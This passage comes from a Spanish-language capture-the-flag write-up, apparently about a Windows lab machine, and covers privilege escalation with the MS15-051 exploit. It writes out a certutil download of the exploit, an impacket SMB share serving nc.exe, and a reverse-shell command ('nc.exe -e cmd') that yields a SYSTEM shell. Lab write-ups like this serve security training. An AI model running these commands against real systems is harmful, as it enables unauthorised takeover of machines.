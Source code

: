 Y transferimos el archivo `ms15-051x64.exe` a la máquina víctima.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.9 - - [08/Oct/2021 01:25:31] "GET /ms15-051x64.exe HTTP/1.1" 200 -
10.10.10.9 - - [08/Oct/2021 01:25:32] "GET /ms15-051x64.exe HTTP/1.1" 200 -
```

```bash
certutil.exe -f -urlcache -split http://10.10.14.17/ms15-051x64.exe ms15-051x64.exe
****  Online  ****
  0000  ...
  d800
CertUtil: -URLCache command completed successfully.
PS C:\Windows\Temp\Privesc>
```

Ahora en nuestra máquina buscamos el archivo `nc.exe` y lo ponemos en nuestro directorio de trabajo.

```bash
❯ locate nc.exe
/usr/share/sqlninja/apps/nc.exe
❯ cp /usr/share/sqlninja/apps/nc.exe .
```

Nos compartimos un servidor SMB en nuestra máquina de atacante y damos soporte a la versión 2:

```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.9,49191)
[*] AUTHENTICATE_MESSAGE (\,BASTARD)
[*] User BASTARD\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:smbFolder)
```

Nos ponemos en escucha a través del puerto 443 y procedemos a ejecutar el exploit: 

```bash
C:\Windows\Temp\Privesc\ms15-051x64.exe "\\10.10.14.17\smbFolder\nc.exe -e cmd 10.10.14.17 443"
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.9] 49192
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
nt authority\system

C:\Windows\Temp\Privesc>
```

Ya somo el usuario `nt authority\system` y podemos visualizar la flag (root.txt).
